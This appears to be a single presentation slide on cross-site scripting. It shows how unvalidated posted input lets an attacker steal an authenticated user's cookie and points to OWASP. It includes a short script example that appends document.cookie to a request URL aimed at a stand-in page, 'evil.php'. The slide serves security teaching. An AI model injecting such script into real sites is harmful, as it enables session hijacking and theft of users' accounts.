

# Example of Cookie Grabber
If the application doesn’t validate the input data, the attacker can easily steal a cookie from an authenticated user.
All needed is posted input(ie: message boards, private messages, user profiles):

For more information: https://owasp.org/
The Open Worldwide Application Security Project (OWASP)
<SCRIPT type="text/javascript">
var adr = '../evil.php?cakemonster=' + escape(document.cookie);
</SCRIPT>